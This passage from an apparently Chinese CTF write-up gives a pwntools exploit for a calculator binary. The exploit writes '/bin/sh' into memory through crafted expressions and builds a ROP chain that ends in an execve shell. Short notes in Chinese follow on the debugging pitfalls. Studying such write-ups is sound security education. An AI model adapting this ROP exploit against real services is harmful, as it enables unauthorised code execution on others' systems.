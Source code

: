 ```python
        print("calc $ebp:" + hex(self.calc_ebp))
        print("parse_ebp $ebp:" + hex(self.parse_expr_ebp))

    def write_binsh(self):
        """
        payload: *701+1845554944+6845231
        """
        binsh = [u32("/bin"), u32("/sh\0")] # 0x6e69622f, 0x0068732f
        sent_number = [binsh[0]-binsh[1], binsh[1]]
        self.payload = "*701+%d+%d\n" % (sent_number[0], sent_number[1])
        self.p.send(self.payload)
        assert p32(int(self.p.recvline(), 10)) == "/bin"
        
        self.binsh_addr = self.calc_ebp - 0x5a0 + 700 * 4
        print("write '/bin/sh': %s" % hex(self.binsh_addr) )

    def ROP(self):
        addr1 = 0x0805c34b      # pop eax; ret
        addr2 = 0x080701d1      # pop ecx; pop ebx; ret
        addr3 = 0x080701aa      # pop edx; ret
        addr4 = 0x08049a21      # int 0x80
        stack = [addr1, 0xb, addr2, 0x0, -0x100000000 + self.binsh_addr, addr3, 0x0, addr4]
        n = [ stack[i+1] + stack[i] for i in range(7)] + [ stack[7] ]
        assert n[3] < 0
        self.payload = "*361-1*%d-1*%d-1*%d-1*%d+%d+%d" % \
            (n[0], n[1], n[2], -n[3], 0x80000000+n[3], 0x80000000+n[3])
        if n[4] > 0:
            self.payload += "-1*%d" % n[4]
        else:
            self.payload += "-1*%d+%d+%d" % (-n[4], 0x80000000 + n[4], 0x80000000 + n[4] )
        self.payload += "-1*%d-1*%d-1*%d\n" % (n[5], n[6], n[7])
        self.p.send(self.payload)
        self.p.recvline()
    
    def get_shell(self):
        self.p.send("illegal")
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.p.recvline()
        self.leak_ebp()
        self.write_binsh()
        self.ROP()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")


if __name__ == "__main__":
    s = Challenge(True)
    s.pwn()
```

写 `exp` 最后 debug 的时候有以下的几个坑点：

1. 我们利用乘法优先级比较高的特性，可以构造 `1*addr` 这样的表达式将上面的地址全部按顺序压入栈中。但是问题是 `adstr` 是一个负数，用这种方式压栈会出现表达式错误（`*-` 两个运算符同时出现）。
2. `/bin/sh` 这个字符串不能写在 `calc` 这个函数的局部变量区，因为每次循环时会被初始化。

